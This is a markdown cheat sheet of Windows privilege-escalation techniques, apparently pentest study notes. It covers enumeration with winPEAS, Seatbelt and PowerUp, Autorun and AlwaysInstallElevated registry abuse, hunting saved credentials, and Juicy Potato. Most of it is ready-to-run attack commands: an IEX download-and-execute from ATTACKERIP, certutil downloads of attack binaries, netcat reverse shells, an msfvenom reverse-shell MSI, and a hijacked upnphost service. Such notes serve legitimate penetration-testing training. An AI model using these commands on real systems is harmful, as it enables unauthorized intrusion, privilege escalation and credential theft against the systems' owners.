 ## Enumeration

### WinPeas

https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/winPEAS/


```
Run all checks while avoiding time-consuming searches:
.\winPEASany.exe quiet cmd fast
winPEAS.exe -a
```
### SeatBelt
```
//system info
SeatBelt.exe system

// user info
SeatBelt.exe user
```

### PowerUP

https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1

```
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('http://ATTACKERIP/PowerUp.ps1');Invoke-AllChecks"
```

### MSF enumeration

```
//weak services permissions
exploit/windows/local/service_permissions

//Always installed elevated
exploit/windows/local/always_install_elevated

//Unattend
post/windows/gather/enum_unattend`
```
## Registry exploits

### Autorun

if you are able to write to an AutoRun executable, and are able to restart the system (or wait for it to be restarted) you may be able to escalate privileges.
```
 .\winPEASany.exe quiet applicationsinfo
 
 //or use requery
 reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
 
 //and then use accesschk.exe to verify the permissions on each one:
 
 .\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"
 
 // exploit replace the exe with our reverse shell
 copy "C:\Program Files\Autorun Program\program.exe" C:\Temp
 copy /Y C:\PrivEsc\reverse.exe "C:\Program Files\AutorunProgram\program.exe"
```

### AlwaysInstallElevated

```
// Use winPEAS to see if both registry values are set:
.\winPEASany.exe quiet windowscreds

// Alternatively, verify the values manually: (both should return 1)
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

EXPLOITATION
// Create a new reverse shell with msfvenom, this time using the msi format, and save it with the .msi extension:

msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.11 LPORT=53 -f msi -o reverse.msi

//Copy the reverse.msi across to the Windows VM, start a listener on Kali, and run the installer to trigger the exploit:

msiexec /quiet /qn /i C:\PrivEsc\reverse.msi
```

## Passwords Hunting

### Registries
```
// Use winPEAS to check common password locations:
.\winPEASany.exe quiet filesinfo userinfo

//manual check
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /s

### Saved Creds
 
.\winPEASany.exe quiet cmd windowscreds
// We can verify this manually using the following command:
cmdkey /list

EXPLOITATION
//We can use the saved credential to run any command as the admin user. Start a listener on Kali and run the reverse shell executable:
runas /savecred /user:admin C:\PrivEsc\reverse.exe

```
## Exploits

### Juicy potato
https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe

Check if users has the following permissions `SeImpersonate` or `SeAssignPrimaryToken` using the following command:

```
whoami /priv
```
![image](4a4d96decced0b64fbb826574627e469.png)

ATTACKER MACHINE

```
nc -lvp 1340
```
VICTIM MACHINE
```
// Download juicy potato binary
certutil -urlcache -split -f http://ATTACKERIP/juicypotato.exe juicypotato.exe

//Download nc binary
certutil -urlcache -split -f http://ATTACKERIP/nc.exe nc.exe 

//Create a bat file that will later execute with juicy potato
echo c:\Users\Public\Documents\nc.exe -e cmd.exe ATTACKERIP 1340 > rev.bat

//call the revshell as system
juicypotato.exe -l 1340 -t * -p c:\Users\Public\Documents\rev.bat

```

### Windows XP SP1 is known to be vulnerable to PE in upnphost. 

```
VICTIM MACHINE
sc config upnphost binpath= "C:\Inetpub\wwwroot\nc.exe YOUR_IP 1234 -e C:\WINDOWS\System32\cmd.exe"
sc config upnphost obj= ".\LocalSystem" password= ""
sc qc upnphost

// If it fails because of a missing dependency, run the following:
sc config SSDPSRV start= auto
net start SSDPSRV
net start upnphost

ATTACKER MACHINE
nc -lvpn 1234
```

### WINDOWS 10 before build 17134 (tested on 14393)

```
use windows/local/ms16_075_reflection_juicy
```
